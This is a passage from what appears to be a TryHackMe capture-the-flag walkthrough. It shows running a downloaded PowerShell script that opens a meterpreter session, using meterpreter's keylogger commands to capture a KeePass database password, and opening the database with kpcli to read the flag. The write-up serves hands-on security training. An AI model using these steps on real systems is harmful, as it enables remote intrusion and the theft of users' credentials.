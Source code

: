 
This will successfully download the file, we can then do:

```
.\pwned.ps1
```

This will trigger our meterpreter listener and we will receive the connection:

![Pasted image 20250527144947.png](../../../IMAGES/Pasted%20image%2020250527144947.png)

Now, on here we need to do:

```
keyscan_start
# We need to wait a couple minutes here, then do
keyscan_dump
# And finally
keyscan_stop
```


After some time, we will receive the database password:

```
Imreallysurenoonewillguessmypassword
```

With this, we can use `kpcli` to open the database and get the flag:

```bash
kpcli:/> show -f -a PasswordDatabase/General/Flag

THM{AD.Users.Can.Give.Up.Good.Secrets}
```


